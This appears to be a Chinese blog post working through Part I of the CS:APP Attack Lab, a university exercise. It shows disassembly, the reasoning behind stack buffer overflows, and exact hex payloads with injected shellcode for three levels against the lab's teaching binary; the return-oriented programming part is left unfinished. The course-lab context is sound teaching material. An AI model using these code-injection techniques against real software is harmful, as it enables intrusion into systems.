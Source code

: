```yaml
---
title: 'CSAPP: Attack Lab'
date: 2017-05-06 22:38:55
tags: [CSAPP,Assembly]
toc: false
---
```


`Attack Lab`是`CS:APP`一书中第三个[实验](http://csapp.cs.cmu.edu/3e/attacklab.pdf)，包括`Part I`和`Part II`两部分，分别实现`Code Injection Attacks`和`Return-Oriented Programming`。`Code Injection Attacks`主要利用缓冲区溢出执行不安全的代码片段；当栈被标记为`nonexecutable`或者位置随机时，可以利用`Return-Oriented Programming`达到攻击的目的。

<!--more-->

目前的进度是完成了`Part I`，等有时间再回来完成`Part II`。

## Part I: Code Injection Attacks

### Level 1

`Level 1`利用输入字符串使当前执行的代码段跳转到预设的代码片段，不会涉及到`code injection`：当`test()`中`getbuf()`返回后，我们要改变`test()`正常的执行逻辑，不再执行下一条指令，而是让`test()`跳转至`touch1()`执行指令。 `test()`以及`touch1()`对应的代码如下所示。

```c
void test() 
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}

void touch1()
{
    vlevel = 1; / * Part of validation protocol * /
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

要实现`Level 1`中的跳转，关键是利用缓冲区溢出来修改`test()`调用`getbuf()`时栈帧中的返回地址。使用`objdump`将`ctarget`反编译，提取`getbuf()`关联的的汇编代码，如下所示。

```assembly
00000000004017a8 <getbuf>:
  4017a8:       48 83 ec 28             sub    $0x28,%rsp
  4017ac:       48 89 e7                mov    %rsp,%rdi
  4017af:       e8 8c 02 00 00          callq  401a40 <Gets>
  4017b4:       b8 01 00 00 00          mov    $0x1,%eax
  4017b9:       48 83 c4 28             add    $0x28,%rsp
  4017bd:       c3                      retq
  4017be:       90                      nop
  4017bf:       90                      nop
```

注意到`%rsp`被减小了`$0x28`即`40`字节，这意味着`getbuf()`开辟了`40`字节的缓冲区，而缓冲区以上的`4`字节则是`getbuf()`执行`ret`指令后`test()`继续执行的指令的地址。`Level 1`要做的就是利用缓冲区溢出，修改这`4`字节的值，使之等于`touch1()`的地址。根据反编译`ctarget`得到的汇编代码，`touch1()`的起始地址为`0x4017c0`，如下所示。

```assembly
00000000004017c0 <touch1>:
  4017c0:       48 83 ec 08             sub    $0x8,%rsp
  4017c4:       c7 05 0e 2d 20 00 01    movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  ...
```

综上，`Level 1`所需的输入字符串长度为`44`字节，前`40`字节用于填充缓冲区，具体的值不重要，后`4`字节等于`touch1()`的地址值`0x4017c0`，注意内存存储规则为`Little Endian`。

```markdown
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 17 40 00
```

我们利用`hex2raw`将输入字符串(`level1.txt`)转化为字节码，并将字节码文件(`level1_bc.txt`)作为`ctarget`的输入，如下图所示。

![](/img/img-2017-05-06-Image 1.png)

`Level 1`通过缓冲区溢出帮助我们理解函数与函数之间跳转的原理，但是并未涉及到参数的传递，这需要通过`code injection`来实现。

### Level 2

`Level 2`的流程与`Level 1`相似：`test()`调用`getbuf()`，当`getbuf()`返回之后，开始执行`touch2()`的指令。`touch2()`有着如下的代码逻辑。

```c
void touch2(unsigned val)
{
    vlevel = 2; / * Part of validation protocol * /
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

与`Level 1`不同，`Level 2`除了需要实现指令跳转，还需要将`cookie`作为参数传递至`touch2()`。这意味着需要执行一段我们自定义的代码来实现参数的传递，这就是所谓的`code injection`。

在`Level 1`中，我们通过改写返回地址值达到跳转至`touch1()`的目的，如果我们现在也仅仅是将返回地址修改为`touch2()`的地址，那么参数传递的问题并没有解决。根据`x86-64`寄存器使用规范，`touch2()`的参数`val`存储于寄存器`%rdi`，此时`%rdi`的值并不是我们期望的`cookie`值。如果在跳转至`touch2()`执行指令之前，先跳转到某个区域执行一段代码，这段代码能够设置寄存器`%rdi`的值，然后再跳转到`touch2()`执行，就可以达到我们的目的。关键是这段代码存储于内存的哪块区域？答案是由`getbuf()`开辟的缓冲区，也就是`Level 1`中可以是任意值的`40`字节。基于以上思路，我们需要明确缓冲区的地址以及待注入的代码。

`getbuf()`调用`Gets()`函数开辟缓冲区，而`Gets()`的返回值即是缓冲区的地址，根据`x86-64`寄存器使用规范，返回值存储于寄存器`%rax`。利用`gdb`查看寄存器`%rax`的值，如下图所示，缓冲区的起始地址为`0x5561dc78`。

![](/img/img-2017-05-06-Image 2.png)

待注入的代码设置寄存器`%rdi`的值等于`cookie`值，然后跳转至`touch2()`执行指令。用汇编代码来描述，如下所示。

```assembly
mov $0x59b997fa,%rdi
pushq $0x4017ec
ret
```

将以上汇编代码进行汇编，然后进行反编译得到机器代码，如下图所示。

![](/img/img-2017-05-06-Image 3.png)

至此，可以写出`Level 2`所需的输入字符串，如下所示。

```markdown
48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 dc 61 55
```

利用`hex2raw`将输入字符串转化为字节码，并将字节码文件作为`ctarget`的输入，运行结果如下图所示。

![](/img/img-2017-05-06-Image 4.png)

### Level 3

`Level 3`也需要通过`code injection`来传递参数。比`Level 2`更复杂的是，`Level 3`传递的参数类型是字符串，更确切的说，应该是字符串的地址。与`Level 3`相关联的`touch3()`如下所示。

```c
void touch3(char *sval)
{
    vlevel = 3; / * Part of validation protocol * /
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

注意到`touch3()`内部调用了`hexmatch()`，其代码如下所示。同时，根据`hexmatch()`的代码逻辑我们推断出`touch3()`期待的参数为`cookie`值的字符串表示。

```c
/ * Compare string to hex represention of unsigned value * /
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    / * Make position of check string unpredictable * /
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```

与`Level 2`的思路类似，`Level 3`通过向`getbuf()`开辟的缓冲区中注入代码来达到设置参数值的目的，但是我们发现`touch3()`调用了`hexmatch()`，`hexmatch()`又调用了`strncmp()`，这就出现了问题：函数的调用会导致新的数据被`push`到栈中，这意味着栈中原有的数据会被覆盖。那么，我们传递的参数，也就是字符串，应该存储在内存的什么位置？

基于以上分析，`Level 3`中待注入的代码与`Level 2`非常类似，唯一不同的就是`Level 2`向寄存器`%rdi`存储的是`cookie`值，而`Level 3`向寄存器`%rdi`存储的是`cookie`字符串的地址值。我们借助`gdb`对比`touch3()`调用`hexmatch()`前后缓冲区的变化情况，以此定位安全的存储字符串的地址。为此，我们先通过`Level 1`中的方法进入`touch3()`，并将指令执行至`hexmatch()`前一条的指令，如下图所示。

![](/img/img-2017-05-06-Image 5.png)

接着执行`callq 0x40184c <hexmatch>`指令，对比执行前后缓冲区内容的变化，可以发现缓冲区的	前`40`个字节并没有连续的`8`个安全的字节供`cookie`字符串存储，但是从`0x5561dca0`开始的`40`个字节在`hexmatch()`调用前后并没有发生变化。因此，可以把字符串存储在缓冲区以外的这片内存区域中(我选择以`0x5561dca8`为首地址的`8`个字节)。

现在可以将已确定的字符串地址存储至寄存器`%rdi`，对应的汇编代码如下所示，获取对应机器码的方式与`Level 2`一致。

```assembly
mov $0x5561dca8,%rdi
pushq $0x4018fa
ret
```

同时，`Level 3`的输入字符串需要根据字符串的存储地址做相应的补充，由于字符串的首地址为`0x5561dca8`，且字符串长度为`8`，因此输入字符串的总长度为`56`字节，如下所示。

```markdown
48 c7 c7 a8 dc 61 55 68 fa 18 40 00 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 dc 61 55 00 00 00 00 35 39 62 39 39 37 66 61
```

借助`hex2raw`将输入字符串转化为字节码，并将其作为`ctarget`的输入，结果如下图所示。

![](/img/img-2017-05-06-Image 6.png)

## Part II: Return-Oriented Programming

### // TODO